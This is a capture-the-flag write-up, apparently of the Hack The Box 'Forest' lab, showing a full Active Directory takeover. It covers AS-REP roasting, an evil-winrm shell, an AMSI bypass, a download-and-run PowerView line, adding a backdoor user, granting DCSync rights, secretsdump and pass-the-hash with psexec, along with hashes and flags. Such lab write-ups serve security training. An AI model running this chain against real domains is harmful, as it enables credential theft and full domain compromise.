 After running a basic `nmap` search, I see that `ldap` is running on port 389.

I run an `ldap` search to see what I find:

```
ldapsearch -h {target ip} 389 -x -s base -b ‘’ “(objectClass=*)” “*” +
```

I get the domain `htb.local`.

After probing several different paths via `smb`, and not getting in, I try `rpc` on port 445.

```
rpcclient -U "" -N {target ip}
rpcclient $> enumdomusers

user:[Administrator] rid:[0x1f4]       
user:[Guest] rid:[0x1f5]               
user:[krbtgt] rid:[0x1f6]              
user:[DefaultAccount] rid:[0x1f7]      
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]  
user:[andy] rid:[0x47e]                
user:[mark] rid:[0x47f]                
user:[santi] rid:[0x480]
```

I create a users list with the following users:

```
root@kali# cat users 
Administrator 
andy 
lucinda 
mark 
santi 
sebastien 
svc-alfresco

root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

...


[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:c213afe360b7bcbf08a522dcb423566c$d849f59924ba2b5402b66ee1ef332c2c827c6a5f972c21ff329d7c3f084c8bc30b3f9a72ec9db43cba7fc47acf0b8e14c173b9ce692784b47ae494a4174851ae3fcbff6f839c833d3740b0e349f586cdb2a3273226d183f2d8c5586c25ad350617213ed0a61df199b0d84256f953f5cfff19874beb2cd0b3acfa837b1f33d0a1fc162969ba335d1870b33eea88b510bbab97ab3fec9013e33e4b13ed5c7f743e8e74eb3159a6c4cd967f2f5c6dd30ec590f63d9cc354598ec082c02fd0531fafcaaa5226cbf57bfe70d744fb543486ac2d60b05b7db29f482355a98aa65dff2f
```

I get the hash above for the user `svc-alfresco` and I get the password `s3rvice`.

I use evil-winrm to connect and shell access to the attacking ip. 

```
$ evil-winrm -i 10.129.135.40 -u svc-alfresco -p s3rvice
```

From here I can move to the user `svc-alfresco`'s Desktop and get the user flag.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt e5e4e47a************************
```

To visualize our domain and users I want use the application `bloodhound`, 



Install bloodhound, then run bloodhound-python to enumerate the privilege escalation paths which downloads json files which will be mapped via bloodhound. Then run bloodhound.

```
$ sudo apt install bloodhound
$ bloodhound-python -d htb.local -usvc-alfresco -p s3rvice -gc forest.htb.local  -c all -ns {victim ip}
$ bloodhound
```

In the Bloodhound UI the credentials for `neo4j` is `neo4j:neo4j`, then click on `Upload Data`, adding those json files from earlier. In `Start Node` add `svc-alfresco` and in `Target Node` add `Domain Admins@HTB.LOCAL`, that gives us a map of the Active Directory.

Now I go back to the Windows shell and add a new user to `Exchange Windows Permissions`

```
PS C:\Users\svc-alfresco\Documents> net user john abc123! /add /domain
PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" john /add

PS C:\Users\svc-alfresco\Documents> menu

PS C:\Users\svc-alfresco\Documents> Bypass-4MSI

PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring('http://{target ip}/PowerView.ps1')

PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'abc123!' -asplain -force

PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\john', $pass)

PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

I can now run `secretsdump` as `john`, which gets the `admin`'s hash, then `psexec` with the new hash gets root access to the server. Then I print the root flag.

```
$ secretsdump.py htb/john@{victim ip}

....
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

$ psexec.py administrator@{victim ip} -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

$ type \users\administrator\desktop\root.txt
97949b4e094f030d9ac3b8608e02cfe1
```











